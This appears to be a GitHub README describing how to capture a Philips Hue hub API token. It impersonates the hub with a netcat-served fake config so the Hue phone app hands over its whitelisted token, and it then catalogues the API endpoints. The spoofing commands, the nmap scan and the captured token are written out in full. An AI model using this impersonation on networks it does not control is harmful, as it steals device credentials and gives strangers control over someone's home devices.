 hued - (?:ab)using the Hue HTTP API
====

- [writeup](#writeup)
- [API methods](#api-methods)
- [notes](#notes)

# writeup

want to talk to your [Philips Hue](http://www2.meethue.com/en-us/) lights directly through an HTTP API without registering an application?

to turn off the currently-in-use lighting scheme:

```
~/hue $ curl -X PUT http://<hue hub>/api/<token>/groups/0/action -d '{"on":true}'
[{"success":{"/groups/0/action/on":true}}]
```

all you need are:
  - the IP for the Hue Hub plugged in to your network
  - a 'whitelisted' token to talk to the API

finding the IP should be pretty straight forward, but the nmap output is not very specific:
```
~/hue $ nmap 192.168.42.0/24
...
Nmap scan report for 192.168.42.66
Host is up (0.0063s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
...
```

the Hue hub uses DHCP by default, so it likely won't be at that address for you, but you get the idea.

now, you need to get a token. to do that, trick the Hue app on your phone/tablet/Echo to send it to us.

  - stand up a webserver listening for GET of `http://0.0.0.0:80/api/config` on the same network (0/24) your phone/tablet/Echo is on
  - `api/config` needs to be JSON that a Hue hub would return (sample included in repo)
  - from your phone/tablet/Echo, select `Settings->Find Bridge->Search`
    * this works intermittently, as some times the app found the real hub and the imposter, other times it would only find the real hub, but would mostly end up with a 'Specify IP' button
  - wait for the app to query your imposter, and you'll have a token

by the numbers:

```
~/hue $ cat api/config
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Expires: Mon, 1 Aug 2011 09:00:00 GMT
Connection: close
Access-Control-Max-Age: 3600
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE, HEAD
Access-Control-Allow-Headers: Content-Type
Content-type: application/json

{"name": "Philips hue","swversion": "01032318","apiversion": "1.13.0","mac": "DE:AD:BE:EF:CA:FE","bridgeid": "001788FFFECAFE","factorynew": false,"replacesbridgeid": null,"modelid": "BSB001"}
~/hue $ while true; do sudo nc -l 80 < api/config; done
...
GET /api/config HTTP/1.1
Host: 192.168.42.83
Accept: */*
Accept-Language: en-us
Connection: keep-alive
Accept-Encoding: gzip, deflate
User-Agent: Hue/1 CFNetwork/758.4.3 Darwin/15.5.0

GET /api/eKpsfhR9K1u32/config HTTP/1.1
Host: 192.168.42.83
Accept: */*
Accept-Language: en-us
Connection: keep-alive
Accept-Encoding: gzip, deflate
User-Agent: Hue/1 CFNetwork/758.4.3 Darwin/15.5.0

GET /api/eKpsfhR9K1u32 HTTP/1.1
Host: 192.168.42.83
Accept: */*
Accept-Language: en-us
Connection: keep-alive
Accept-Encoding: gzip, deflate
User-Agent: Hue/1 CFNetwork/758.4.3 Darwin/15.5.0
```

and now we have our token, `eKpsfhR9K1u32`. with that, we can call (all?) API methods

# API methods

api|description|GET|PUT
----|-----------|---------------|----------------
`/config/`|set and query existing settings|without token for unauthenticated, basic registration information, with token for light/device/schedule/sensor configuration|JSON matching schema validation|
`/lights/`|scan and query existing lights|JSON scan status|empty body to start a scan
`/sensors/`|scan and query existing sensors|JSON scan status|empty body to start a scan
`/scenes/`|set and query existing scenes|JSON scene list| /`<uuid>/lights/<id>/state => {"on":true,"xy":[0.5804,0.3995],"bri":253}`
`/schedules/`|set and query existing schedules/timers|JSON schedules/timers|`/<uuid> => {"name":"Alarm","autodelete":false,"localtime":"2016-06-20T16:20:00","description":"giants","status":"enabled","command":{"address":"/api/eKpsfhR9K1u32/groups/0/action","body":{"scene":"f55e38250-on-0"},"method":"PUT"}}`
`/groups/`|set and query scene (?) groupings|empty JSON|`/<id>/action => {"scene":"2fc89fcdb-on-0"}`

a few example request/responses:

```json
# http://192.168.42.66/api/eKpsfhR9K1u32/scenes
{
  "f4750b0cf-off-5": {
    "name": "HIDDEN foff 1452936620159",
    "lights": [
      "1",
      "2",
      "3",
      "4",
      "5",
      "6",
      "7",
      "8",
      "9",
      "10"
    ],
    "owner": "eKpsfhR9K1u32",
    "recycle": true,
    "locked": true,
    "appdata": {

    },
    "picture": "",
    "lastupdated": "2016-01-16T09:30:21",
    "version": 1
  },
  ...
}  
```

# notes

all versions tested are the latest available as of 2016/06/19

component|version|notes
---------|-------|-----
Philips Hue Hub|5.23.1.13452|
Hue mobile App|1.12.1.0|same version reported on both Android and Apple devices

TODO
* dig further in api/\<token\>/config
  * determine how the hashes are generated. not concatenation of create time / name in any obvious way. different devices seem to come up with hashes in different ways. older iPhone/iPad apps were [A-Z0-9]{16}, while Android ones seem to always have been [A-Z]{32}
* write a client library/binding? or at least some abstraction
* determine the truly necessary pieces of the imposter response, think it really only needs content-type and minimal JSON
* work on SSDP discovery, see [description.xml](description.xml)
